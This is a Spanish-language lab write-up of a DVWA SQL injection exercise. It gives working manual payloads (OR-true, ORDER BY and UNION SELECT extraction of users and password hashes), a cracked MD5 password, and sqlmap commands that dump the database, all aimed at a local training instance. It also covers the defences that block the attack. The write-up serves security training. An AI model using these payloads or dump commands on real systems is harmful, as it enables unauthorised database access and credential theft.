# Ejercicio 8 — SQL Injection en DVWA

## Entorno de prueba

**Plataforma:** Damn Vulnerable Web Application (DVWA)  
**Vulnerabilidad:** SQL Injection (manual y automatizada con SQLmap)  
**Módulo:** SQL Injection / SQL Injection (Blind)

---

## Nivel LOW — Explotación manual

### Acceso al módulo SQL Injection

Se accede al módulo **SQL Injection** de DVWA con el nivel de seguridad configurado en **Low**:



La aplicación presenta un campo de entrada donde se introduce un ID de usuario. El valor se incorpora directamente a una consulta SQL sin ningún tipo de sanitización.

---

### Paso 1 — Comprobación de vulnerabilidad

Se introduce el siguiente payload para verificar si el campo es vulnerable:

```sql
1' OR '1'='1
```

Este payload altera la lógica de la consulta SQL, haciendo que la condición `WHERE` sea siempre verdadera, lo que devuelve todos los registros de la tabla en lugar de uno solo.



La aplicación devuelve múltiples registros, confirmando que el parámetro `id` es vulnerable a inyección SQL.

---

### Paso 2 — Enumeración de columnas con ORDER BY

Para llevar a cabo un ataque UNION-based es necesario conocer el número de columnas que devuelve la consulta original. Se utilizan consultas `ORDER BY` incrementales:

```sql
1' ORDER BY 1-- -
1' ORDER BY 2-- -
1' ORDER BY 3-- -
```



Cuando `ORDER BY 3` genera un error, se confirma que la consulta devuelve **2 columnas**.

---

### Paso 3 — Ataque UNION básico

Con el número de columnas identificado, se verifica la posición de las columnas visibles en la respuesta:

```sql
1' UNION SELECT 1,2-- -
```



Se confirma que ambas columnas son visibles en la salida de la aplicación, lo que permite extraer datos arbitrarios de la base de datos.

---

### Paso 4 — Extracción de usuarios y contraseñas

Se construye el payload definitivo para obtener los usuarios y contraseñas almacenados en la tabla `users`:

```sql
1' UNION SELECT user, password FROM users-- -
```



La aplicación muestra los nombres de usuario y los hashes de las contraseñas almacenados en la base de datos. El objetivo del ataque queda cumplido.

---

### Contraseña del usuario Pablo

Una vez obtenidos los hashes, se identifica el hash correspondiente al usuario `pablo`:



**Hash extraído:** `0d107d09f5bbe40cade3de5c71e9e9b7`

El hash se identifica como **MD5** por su longitud de 32 caracteres hexadecimales. Utilizando la herramienta online **CrackStation** (base de datos de hashes precomputados), se obtiene el texto en claro:

**Contraseña del usuario pablo: `letmein`**

**Proceso:**
1. Se extrajo el hash MD5 mediante el UNION SELECT anterior.
2. Se introdujo el hash en CrackStation.
3. La herramienta encontró una coincidencia en su base de datos de hashes precomputados (rainbow tables).

---

## Comparativa por niveles de seguridad

### Nivel LOW

No existe ningún tipo de filtrado ni sanitización. Los payloads UNION-based básicos funcionan sin modificación.

**Payloads que funcionan:**
```sql
1' OR '1'='1
1' UNION SELECT user, password FROM users-- -
```

### Nivel MEDIUM

La aplicación introduce algunas medidas defensivas básicas, como el uso de `mysqli_real_escape_string()` y un filtrado parcial de caracteres especiales. Los payloads con comilla simple quedan bloqueados, pero al utilizar la entrada como selector numérico es posible inyectar sin comillas.



**Payloads adaptados:**
```sql
1 UNION SELECT user, password FROM users-- -
```

### Nivel HIGH

El nivel High implementa controles más estrictos sobre la entrada del usuario, incluyendo validaciones adicionales y consultas más controladas. La mayoría de técnicas directas quedan bloqueadas.



La vulnerabilidad sigue presente pero requiere técnicas más avanzadas para ser explotada (como inyección en otros vectores o evasión de filtros más sofisticada).

### Nivel IMPOSSIBLE

La aplicación aplica las medidas adecuadas para prevenir completamente la vulnerabilidad:

- **Consultas preparadas** (*prepared statements*) con parámetros enlazados.
- **Validación estricta del tipo de dato** en el lado del servidor.
- **Correcto escapado** de toda la salida.



No es posible explotar la vulnerabilidad en este nivel con ninguna técnica conocida de SQL Injection.

---

## Automatización con SQLmap

SQLmap es una herramienta de código abierto que automatiza la detección y explotación de vulnerabilidades SQL Injection. A continuación se documentan los comandos utilizados para replicar el proceso manual.

### Detección de vulnerabilidad

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low"
```



SQLmap confirma automáticamente la vulnerabilidad e identifica el tipo de inyección (UNION-based, Boolean-based, etc.).

### Enumeración de bases de datos

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low" \
  --dbs
```



### Enumeración de tablas

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low" \
  -D dvwa --tables
```



### Enumeración de columnas

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low" \
  -D dvwa -T users --columns
```



### Volcado de datos

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low" \
  -D dvwa -T users --dump
```



SQLmap obtiene automáticamente los mismos resultados que el proceso manual: usuarios, hashes y en algunos casos intenta crackear los hashes automáticamente mediante diccionario.

---

## SQLmap contra SQL Injection (Blind)

Se lanza el mismo ataque contra el módulo de **SQL Injection (Blind)** de DVWA:

```bash
python sqlmap.py -u "http://localhost:8080/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=2jjjcnhuoli6e5jkcrrehi3a6r; security=low" \
  --dump
```





SQLmap detecta automáticamente que se trata de una inyección ciega y adapta su técnica de extracción (Boolean-based o Time-based), obteniendo los mismos resultados que en el módulo de SQLi normal, aunque el proceso es considerablemente más lento al requerir múltiples peticiones por cada carácter extraído.

---

## Comparativa: Explotación manual vs. SQLmap

| Aspecto | Manual | SQLmap |
|---------|--------|--------|
| Velocidad | Lenta | Muy rápida |
| Conocimiento requerido | Alto | Bajo-medio |
| Control sobre las peticiones | Total | Limitado |
| Adaptación a filtros | Manual | Automática (con opciones) |
| Detección por IDS/WAF | Personalizable | Mayor huella |
| Resultado final | Idéntico | Idéntico |

---

## Conclusiones

El módulo SQL Injection de DVWA demuestra cómo una aplicación web que no parametriza sus consultas puede ser completamente comprometida: un atacante puede enumerar bases de datos, tablas, columnas y volcar todos los datos almacenados, incluyendo credenciales de usuario. El nivel **Impossible** de DVWA, que implementa consultas preparadas, es el único que resulta efectivamente protegido frente a esta clase de ataques.

La herramienta SQLmap automatiza todo el proceso, reduciendo drásticamente el tiempo necesario y eliminando los errores humanos, aunque el conocimiento manual del proceso es esencial para comprender los resultados, adaptar los ataques a entornos con filtros y evadir mecanismos de detección.
